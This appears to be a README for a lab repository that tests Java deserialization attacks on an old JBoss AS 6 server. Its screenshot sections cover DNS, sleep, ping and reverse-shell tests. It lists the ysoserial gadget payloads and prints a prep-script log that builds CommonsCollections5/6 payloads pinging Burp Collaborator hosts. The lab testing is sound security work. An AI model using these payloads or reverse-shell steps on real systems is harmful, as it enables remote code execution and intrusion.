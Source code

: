 # jbossas6

Testing deserialization attacks with old JBoss AS server

<!-- TOC -->

-   [jbossas6](#jbossas6)
-   [Screenshots](#screenshots)
    -   [DNS Test](#dns-test)
    -   [Sleep Test](#sleep-test)
    -   [CPU Test](#cpu-test)
    -   [Ping RCE Test with ysoserial](#ping-rce-test-with-ysoserial)
-   [Reverse Shell](#reverse-shell)
    -   [Download Netcat](#download-netcat)
    -   [Change Permissions](#change-permissions)
    -   [Setup Simple Reverse Shell](#setup-simple-reverse-shell)
    -   [Shell Test](#shell-test)
-   [Ref](#ref)
    -   [Ysoserial Payloads](#ysoserial-payloads)
    -   [Prepare test payloads](#prepare-test-payloads)

<!-- /TOC -->

# Screenshots

## DNS Test

![DNS Test](screenshots/dnstest.png)

## Sleep Test

![Sleep Test](screenshots/sleeptest.png)

## CPU Test

![CPU Test](screenshots/cputest.png)

## Ping RCE Test with ysoserial

Works with CommonCollection5 and CommonCollection6.

![Exploit](screenshots/exploit1.png)

# Reverse Shell

## Download Netcat

![Download](screenshots/download.png)

## Change Permissions

![Change permissions](screenshots/chmod.png)

## Setup Simple Reverse Shell

![ncat](screenshots/ncat.png)

## Shell Test

![ncat](screenshots/shell.png)

# Ref

## Ysoserial Payloads

````bash
$ java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     MozillaRhino2       @_tint0                     js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
     ```
````

## Prepare test payloads

```bash
$ ./prep.sh
+ URL=k5qpre6deprzdh9a45e0l2ev6mcc01.burpcollaborator.net
+ PAYLOAD=CommonsCollections5
+ FILE=payload-CommonsCollections5.bin
+ echo -e '\n-- Creating test payload using CommonsCollections5 and saving it to payload-CommonsCollections5.bin...'

-- Creating test payload using CommonsCollections5 and saving it to payload-CommonsCollections5.bin...
+ java -jar ysoserial.jar CommonsCollections5 'ping -c 1 k5qpre6deprzdh9a45e0l2ev6mcc01.burpcollaborator.net'
+ URL=8bkdx2c1kdxnj5fyatkorqkjcai16q.burpcollaborator.net
+ PAYLOAD=CommonsCollections6
+ FILE=payload-CommonsCollections6.bin
+ echo -e '\n-- Creating test payload using CommonsCollections6 and saving it to payload-CommonsCollections6.bin...'

-- Creating test payload using CommonsCollections6 and saving it to payload-CommonsCollections6.bin...
+ java -jar ysoserial.jar CommonsCollections6 'ping -c 1 8bkdx2c1kdxnj5fyatkorqkjcai16q.burpcollaborator.net'
```
